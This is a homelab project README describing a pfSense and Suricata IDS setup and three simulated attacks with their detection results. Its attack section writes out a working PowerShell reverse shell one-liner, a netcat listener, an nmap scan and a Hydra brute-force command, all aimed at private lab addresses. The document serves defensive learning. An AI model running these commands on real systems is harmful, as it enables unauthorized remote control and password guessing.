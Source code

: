 # 🛡️ Cybersecurity Homelab: Suricata IDS + Reverse Shell Attack Simulation

![Status](https://img.shields.io/badge/status-completed-brightgreen)  
![Platform](https://img.shields.io/badge/platform-VirtualBox-blue)  
![Log Type](https://img.shields.io/badge/logs-Suricata%20Alerts-orange)

## 📘 Project Overview

This project demonstrates how to set up a virtualized cybersecurity homelab using **pfSense**, **Suricata IDS**, **Kali Linux**, and **Windows 10**. It simulates a real-world cyberattack involving a **reverse shell** and evaluates **Suricata's detection capability**.

---

## 🏗️ Lab Topology

![_- visual selection](https://github.com/user-attachments/assets/4f46f75e-951e-4bed-b097-f30b0ecb1534)


All machines are connected via **VirtualBox Internal Network (LAN_NET)**.

---

## 🔧 Technologies Used

- VirtualBox
- pfSense Firewall + Suricata IDS
- Kali Linux (Netcat, Nmap, Hydra)
- Windows 10 (PowerShell reverse shell)
- Emerging Threats Open Rules

---

## ⚙️ Step-by-Step Setup

### 1. Homelab Configuration
- Installed pfSense and configured LAN interface as `192.168.1.1`
- Installed Suricata on pfSense and enabled Alert-only mode on LAN
- Added **Kali (192.168.1.100)** and **Windows (192.168.1.101)** to LAN_NET

### 2. Rule Configuration
- Enabled decoder and stream rules by default
- Added `emerging-shellcode.rules`, `scan.rules`, and `http-events.rules`
- Suricata configured to alert on suspicious traffic

---

## 🧪 Simulated Attacks

### ✔️ Reverse Shell
- On Kali:
  nc -nvlp 4444


  On Windows PowerShell:
  
  $c=New-Object Net.Sockets.TCPClient('192.168.1.100',4444);$s=$c.GetStream();[byte[]]$b=0..65535|%{0};while(($r=$s.Read($b,0,$b.Length)) -ne 0){$d=(New-Object Text.ASCIIEncoding).GetString($b,0,$r);$o=(iex $d 2>&1 | Out-String);$s.Write(([text.encoding]::ASCII).GetBytes($o),0,$o.Length)}



   Nmap Port Scan:
  
sudo nmap -sS 192.168.1.101

Hydra Brute Force (HTTP):

sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.1.101 http-get


## 📡 Suricata Alert Results

Each simulated attack was captured and alerted by Suricata in the pfSense interface.

| Attack            | Suricata Detection Status |
|-------------------|---------------------------|
| Reverse Shell     | ✅ Alerted (Generic Protocol Decode) |
| Nmap Scan         | ✅ Alerted (Port Scanning) |
| Hydra Brute Force | ✅ Alerted (HTTP anomalies) |


> Screenshots available in the `screenshots/` folder.

---

## 📁 Project Structure

```
Cybersecurity-Homelab-and-Reverse-Shell-Simulation/
├── report/
│   └── Homelab_and_Attack_Simulation_Report.pdf
├── screenshots/
│   └── suricata_alerts.png
│   └── reverse_shell_nc.png
├── README.md
```

---

## 🧠 Key Skills Demonstrated

- Virtual firewall and IDS deployment (pfSense + Suricata)
- Red team simulation using Kali Linux
- Alert analysis and logging
- Network security configuration and troubleshooting
- Technical documentation and reporting

---

## 🚀 Future Improvements

- Integrate ELK Stack for centralized logging
- Add Splunk/QRadar for advanced SIEM capabilities
- Include Metasploitable2 for expanded testing

---





